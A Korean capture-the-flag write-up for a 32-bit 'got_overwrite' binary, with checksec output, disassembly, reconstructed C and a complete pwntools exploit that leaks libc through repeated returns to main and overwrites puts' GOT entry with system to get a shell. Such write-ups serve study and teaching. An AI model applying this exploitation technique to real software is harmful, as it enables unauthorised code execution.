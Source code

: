 # got_overwrite
지용이가 추천해준 문제 GOT Overwrite 문제

## analysis
적용된 메모리 보호기법은 아래와 같다.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
코드 흐름은 아래와 같다.
``` c
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x0804846b <+0>:	push   ebp
   0x0804846c <+1>:	mov    ebp,esp
   0x0804846e <+3>:	sub    esp,0x30
   0x08048471 <+6>:	push   0xe
   0x08048473 <+8>:	push   0x8048530
   0x08048478 <+13>:	push   0x1
   0x0804847a <+15>:	call   0x8048350 <write@plt>
   0x0804847f <+20>:	add    esp,0xc
   0x08048482 <+23>:	push   0x49
   0x08048484 <+25>:	lea    eax,[ebp-0x30]
   0x08048487 <+28>:	push   eax
   0x08048488 <+29>:	push   0x0
   0x0804848a <+31>:	call   0x8048320 <read@plt>
   0x0804848f <+36>:	add    esp,0xc
   0x08048492 <+39>:	push   0x804853f
   0x08048497 <+44>:	call   0x8048330 <puts@plt>
   0x0804849c <+49>:	add    esp,0x4
   0x0804849f <+52>:	mov    eax,0x0
   0x080484a4 <+57>:	leave  
   0x080484a5 <+58>:	ret  
gdb-peda$ x/2s 0x8048530
0x8048530:	"overflow me : "
0x804853f:	"/bin/sh"
```
대충 코드는 아래와 같다.
``` c
int main() {
	char buf;
	write(1, "overflow me : ", 0xe);
	read(0, &buf, 0x49);
	puts("/bin/sh");
	return 0;
}
```
우선 read로 인해 overflow가 발생한다. 친절하게 puts 함수에 `/bin/sh`도 넣어주었다. puts의 got를 system으로 overwrite하라고 알려준 셈.  

## hmm...
생각해보니 overflow가 일어나도 내가 수행해야 하는 함수가 많아서 저정도 overflow로는 택도 없다. rop를 이용하는게 아닌가 싶다가도 다른 방법이 떠오르지 않아 다시 rop를 붙잡다가를 반복했다.

## solve
write 함수를 쓸 경우 write 함수 딱 한개만 rop공격으로 사용할 수 있는 정도의 작은 크기의 overflow다. 그래서 chain 공격으로 이어지는 방법을 생각했다. return 주소를 main으로 돌려서 여러번 동일 메모리에서 rop 공격을 해서 마치 rop chain 처럼 이용할 수 있었다. 익스 코드는 아래와 같다.
``` python
from pwn import *

#context.log_level = 'debug'

e = ELF("./got_overwrite")
p = process("./got_overwrite")

plt_puts = 0x8048330

# set virtual addr
v_libc = 0xf7e06000
v_puts = 0xf7e65ca0
v_read = 0xf7edbb00
v_system = 0xf7e40da0

g_puts = v_puts - v_libc
g_system = v_system - v_libc
g_read = v_read - v_libc

r_main = 0x0804846b
dummy = "a" * 0x34

def doPayload(func, arg):
	p.recvuntil("overflow me : ")
	pload = dummy
	pload += p32(func)
	pload += p32(r_main)
	for i in arg:
		pload += p32(i)
	p.send(pload)

# ====== round1 ======
# puts(plt_puts)
doPayload(plt_puts, (plt_puts,))
p.recv(10) # /bin/sh\n\xff\x25

got_puts = u32(p.recv(4))

# ====== round2 ======
# puts(got_puts)
doPayload(plt_puts, (got_puts,))
p.recv(8)

r_puts = u32(p.recv(4))
r_libc = r_puts - g_puts
r_read = r_libc + g_read 
r_system = r_libc + g_system

# ====== round3 ======
# read(0, got_puts, 4) < r_system
doPayload(r_read, (0, got_puts, 4))
p.send(p32(r_system))

# ====== round4 ======
p.interactive()
```
쉘이 따진다.